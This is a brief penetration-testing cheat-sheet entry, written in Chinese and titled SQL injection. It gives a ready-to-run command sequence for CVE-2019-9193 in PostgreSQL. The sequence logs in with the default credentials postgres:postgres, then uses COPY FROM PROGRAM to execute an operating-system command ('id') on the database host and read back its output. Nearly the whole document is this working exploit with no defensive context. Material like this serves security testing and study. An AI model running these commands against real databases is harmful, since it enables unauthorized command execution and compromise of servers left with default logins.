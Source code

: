 # ✔️ SQL注入 - SQL Injection

## PostgreSQL

### CVE-2019-9193

```bash
# 登录了postgres之后 (默认凭证postgres:postgres)
psql -h 192.168.xxx.xxx -p 5437 -U postgres
\c postgres
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```



##



